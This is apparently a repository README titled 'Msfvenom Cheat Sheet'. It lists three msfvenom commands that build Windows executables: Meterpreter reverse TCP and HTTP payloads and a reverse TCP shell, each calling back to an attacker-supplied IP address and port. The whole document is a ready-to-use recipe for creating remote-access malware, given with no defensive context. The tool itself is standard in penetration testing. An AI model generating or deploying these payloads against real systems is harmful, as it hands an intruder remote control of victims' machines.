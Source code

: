 # Msfvenom-Cheat-Sheet
A list of msfvenom commands

## Windows Payloads
| Command       | Info           |
| ------------- |:-------------:|
|msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > example.exe     | Creates a simple TCP Payload |
|msfvenom -p windows/meterpreter/reverse_http LHOST=(IP Address) LPORT=(Your Port) -f exe > example.exe     | Creates a simple HTTP Payload |
|msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > example.exe | Creates a simple TCP Shell |
